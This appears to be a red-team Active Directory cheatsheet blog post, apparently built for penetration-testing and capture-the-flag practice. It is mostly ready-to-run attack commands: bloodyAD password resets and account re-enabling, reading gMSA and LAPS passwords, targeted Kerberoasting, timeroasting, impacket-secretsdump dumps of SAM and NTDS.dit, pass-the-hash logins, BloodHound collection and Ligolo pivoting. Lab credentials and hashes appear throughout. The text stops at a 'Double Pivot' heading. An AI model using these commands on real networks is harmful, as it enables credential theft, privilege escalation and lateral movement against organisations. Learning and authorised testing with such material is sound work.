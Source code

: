 ```yaml
---
title: "Active Directory Cheatsheet"
date: 2025-09-15 00:00:00 +1000
categories: [red team, active directory, cheatsheet]
tags: [active directory, cheatsheet, red team]
---
```


This cheatsheets covers everything AD-related:
- Enumerating and exploiting DACLs, misconfigurations with bloodyAD
- Mapping network domains with BloodHound
- Authentication, enumeration, and credential dumping across various network services with NetExec
- Pivoting with ligolo - double, triple and quad pivots, accessing internal ports


### bloodyAD

bloodyAD is an Active Directory privilege escalation swiss army knife. bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

autobloodyAD: https://github.com/CravateRouge/autobloody

**Reset/Change a User’s Password (ForceChangePassword, AllExtendedRights)**

```bash
#Change the password for admin with john's permissions - john = ControlledUser - admin = User whose password we want to change
bloodyAD -u john -p 'NewPassword123!' -d $domain --host $IP set password admin 'NewPassword123!'
```

```bash
#Enumerate the attributes and ACLs of a specific group
 bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object "CN=GROUP NAME,OU=Security Groups,OU=Corp,DC=ad,DC=trilocor,DC=local" --attr 
 distinguishedName,nTSecurityDescriptor --resolve-sd
```

Enumerate a user’s rights at the Domain Level

```bash
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object 'DC=ad,DC=trilocor,DC=local' --attr ntsecuritydescriptor --resolve-sd
```

Enumerate a user’s rights, permissions, and ACLs

```bash
#Enumerate a user's rights, permissions, ACLs
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get writable --detail
```

**Read GMSA Password (ReadGMSAPassword)**

```bash
##Use the 'ReadGMSAPassword' privilege to get the NTLM hash
nxc ldap tombwatcher.htb -u user -p password --gmsa
```

**Deleted Objects - AD Tombstones**

```bash
#Query to find deleted objects from the AD tombstone
bloodyAD -u $user -p '$password' -d $domain --host $DC get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name --base 'CN=Deleted Objects,DC=ad,DC=trilocor,DC=local'
```

**Enable a Disabled Account**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC remove uac $target_username -f ACCOUNTDISABLE
bloodyAD -u john.smith -p 'Password' -d htb.local --host dc01.htb.local remove uac joseph.smith -f ACCOUNTDISABLE
```

**Change a User’s SPN (for Targeted Kerberoasting)**

```bash
bloodyAD -d $domain --host $DC -u $user -p '$password' -k set object $user servicePrincipalName -v 'http/web.ad.trilocor.local'
```

**Search for LAPS Passwords (with GenericAll privilege)**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC get search --filter '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))' --attr ms-MCS-AdmPwd --base 'ou=servers,dc=reflection,dc=vl'

ldapsearch -x -H ldap://10.10.151.149 -D "abbie.smith@reflection.vl" -w 'CMe1x+nlRaaWEw' -b 
"ou=servers,dc=reflection,dc=vl" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

### netexec

**Kerberoasting / Targeted Kerberoasting**

```bash
nxc ldap IP -u user -p password --kerberoast kerberoast.out
```

**RBCD / GenericAll Exploitation without a Machine Account**

```bash
##Query Machine Account Quota (MAQ) - 0 = we CANNOT create computer objects
nxc ldap $dc -u $user -p $password -M maq
```

**Timeroasting**

```bash
nxc smb $domain -M timeroast
```

**Query LDAP**

```bash
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
#Get User Descriptions
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```

**Find Misconfigured Delegation**

```bash
#Find Misconfigured Delegation
nxc ldap $IP-u $user -p $password --find-delegation

# Example Output

SMB    192.168.56.11   445   WINTERFELL   [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP   192.168.56.11   389   WINTERFELL   [+] north.sevenkingdoms.local\eddard.stark:FightP3aceAndHonor! (Pwn3d!)
LDAP   192.168.56.11   389   WINTERFELL   AccountName  AccountType DelegationType                     DelegationRightsTo
LDAP   192.168.56.11   389   WINTERFELL   ------------ ----------- ---------------------------------- ----------------------------------------------------------------
LDAP   192.168.56.11   389   WINTERFELL   sansa.stark  Person      Unconstrained                      N/A
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Constrained w/ Protocol Transition CIFS/winterfell, CIFS/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Resource-Based Constrained         RBCD-COMPUTER$
LDAP   192.168.56.11   389   WINTERFELL   CASTELBLACK$ Computer    Constrained                        HTTP/winterfell, HTTP/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   пользователь Person      Resource-Based Constrained         WINTERFELL$
```

### Impacket

Get a TGT for a user

```bash
impacket-getTGT $domain/'user':'password'
impacket-getTGT htb.local/'john':'Password123'
```

Dump database

```bash
impacket-secretsdump DOMAIN/username:password@IP
#Dumping secrets with a hash
impacket-secretsdump htb.local/john@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
#Dump local SAM & SYSTEM files
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
#Dump local NTDS.dit (AD database)
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

Connecting to an MSSQL server

```bash
impacket-mssqlclient DOMAIN/username:password@IP
#Connecting to an MSSQL server with a hash
impacket-mssqlclient htb.local/john@10.10.10.5 -hashes :32ed87bdb5fdc5e9cba88547376818d4
```

### BloodHound

**Collection**

```bash
nxc ldap $domain -u $user -p $password --bloodhound --collection All --dns-server $IP

bloodhound-python -d $domain --zip -c All -ns $IP -u $user -p $password
```

### Pivoting with Ligolo

**Single Pivot**

```powershell
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
```

**Single Pivot (same IP range)**

Pivoting when the target IP range is the same range as your IP (e.g both 10.10 range)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
sudo ip route add 10.10.146.86 via 10.8.5.207  #Add the machine IP (10.10.146.86) via your VPN IP (10.8.5.207)
sudo ip route add 10.10.146.80/28 dev ligolo   #Add a route between 10.10.146.80 to .95

```

**Port Forwarding**

If you need to access the local ports of the currently connected agents, there’s a “magic” CIDR hardcoded in Ligolo-ng: 240.0.0/4 (This is an unusual IPv4 subnet). If you query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent’s local IP address (127.0.0.1).

```bash
sudo ip route add 240.0.0.5/32 dev ligolo-portfwd
nmap -Pn 240.0.0.5 -p3306
```

**Double Pivot**
